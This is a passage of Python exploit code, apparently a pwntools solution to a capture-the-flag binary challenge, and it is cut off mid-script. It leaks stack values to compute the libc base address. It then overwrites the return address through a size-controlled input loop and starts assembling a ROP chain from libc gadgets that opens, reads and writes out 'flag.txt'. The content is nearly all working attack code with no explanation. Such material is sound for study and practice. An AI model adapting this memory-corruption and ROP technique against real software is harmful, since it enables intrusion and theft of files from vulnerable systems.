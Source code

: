 ```python
        values = [int(s) & 0xffffffff for s in leak]
        qwords = []
        for i in range(0, len(values), 2):
            lo = values[i]
            hi = values[i + 1]
            qword = (hi << 32) | lo
            qwords.append(qword)
            log.info(f"[{i // 2}] Leaked at offset {hex(i * 4)}: {hex(qword)}")

        return qwords


    def write_payload(io, payload):
        RET_OFFSET = 0x1c8
        nulls = RET_OFFSET // 4
        payload_dwords = len(payload) // 4

        total = nulls + payload_dwords

        send_size(io, total)

        for i in range(nulls):
            send_null(io)

        for i in range(0, len(payload), 4):
            chunk = payload[i:i + 4]
            num = u32(chunk)

            log.info(f"Sending payload chunk: {chunk}")
            send_input(io, str(num).encode())


    # LEAK LIBC ADDRESS
    qwords = leak_stack(0x2a8)

    libc_start_main = qwords[85] - 133
    libc.address = libc_start_main - libc.sym['__libc_start_main']

    log.success(f"Leaked libc address: {hex(libc.address)}")


    # EXPLOITATION PHASE
    io = conn()

    OPEN_FUNC = libc.sym['open']
    READ_FUNC = libc.sym['read']
    WRITE_FUNC = libc.sym['write']
    POP_RDI = libc.address + 0x0000000000028215
    POP_RSI = libc.address + 0x0000000000029b29
    POP_RDX = libc.address + 0x00000000001085ad
    XCHG_EAX_EDI = libc.address + 0x000000000004bd3a
    XCHG_EAX_EBX = libc.address + 0x00000000000b124f
    MOV_QWORD_RSI_RDX = libc.address + 0x000000000004f862
    FLAG_PATH_STR = u64(b'flag.txt')
    FLAG_PATH_ADDR = libc.bss(0x800)
    FLAG_CONTENT_ADDR = libc.bss(0x900)

    rop_chain = flat(
        XCHG_EAX_EDI,
        XCHG_EAX_EBX,

        POP_RSI, FLAG_PATH_ADDR,
        POP_RDX, FLAG_PATH_STR,
```